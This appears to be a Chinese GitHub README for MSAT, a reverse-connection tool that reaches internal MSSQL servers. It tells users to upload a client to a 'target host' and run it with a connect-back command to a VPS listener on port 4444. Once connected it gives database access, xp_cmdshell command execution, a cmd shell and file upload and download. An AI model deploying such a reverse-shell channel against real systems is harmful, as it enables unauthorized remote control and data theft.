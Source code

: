 # MSAT

MSAT是一款MSSQL反向连接可视化工具。

开发原因是遇到了较多的sql server数据库，但是大多处于内网。访问时都需要进入内网才能连接操作。在一番寻找之后没有发现合适的工具，于是本着学习.NET的打算，一通乱写，整出了这么个破玩意。勉强可以用一用。应该没有造车轮吧。由于使用到了Dev插件，导致服务端软件较大。

### 使用方法

软件分为两个部分，客户端和服务端。

##### 客户端 
.NET Framework版本： 3.5

将客户端上传到目标主机后，使用cmd打开。

```cmd
MSATClient ip port [time]
```

ip: VPS的IP地址

port：设置的VPS监听端口

time：可选参数，如果省略表示持续运行。加参数表示固定时间后自动断开socket连接，时间单位为分钟。注意：不会删除客户端持续，只是断开连接。

例：

```cmd
MSATClient 192.168.1.2 4444 60
表示连接192.168.1.2的4444端口，并且在60分钟后自动断开连接
```

##### 服务端
.NET Framework版本： 4.7.2

将压缩包解压，打开MSATServer.exe即可。

![](https://github.com/GabgM/MSAT/raw/master/image/0.PNG)

服务端有两种Socket运行方式。

①、当HOST为0.0.0.0时，监听本地端口，等待客户端反向连接。

②、当HOST不为0.0.0.0时，正向连接填写的host，搭配LCX使用，与客户端连接。

第二种连接方式存在一定的问题，只能勉强使用。

连接完成后，点击登陆按钮，连接数据库就可以正常使用了。

![](https://github.com/GabgM/MSAT/raw/master/image/1.PNG)

注意：数据库结构目前貌似只能是sa用户才能正常获取。当进行数据查询时，客户端的CPU占用会大幅度增加(25%左右)，用于对数据的处理。

当目标开启xp_cmdshell功能后，可以直接输入命令执行。

![](https://github.com/GabgM/MSAT/raw/master/image/2.PNG)

除了MSSQL的使用，还额外增加了cmd，和文件传输的功能。

下载文件，输入客户端文件的绝对路径即可。

上传文件，点击按钮选择即可。

![](https://github.com/GabgM/MSAT/raw/master/image/3.PNG)

最后，当需要退出程序时，会有两种退出方式。

![](https://github.com/GabgM/MSAT/raw/master/image/4.PNG)

点击是，会在退出服务端的同时关闭客户端。

点击否，只会退出服务端。



### 最后
本软件仅用于学习交流！
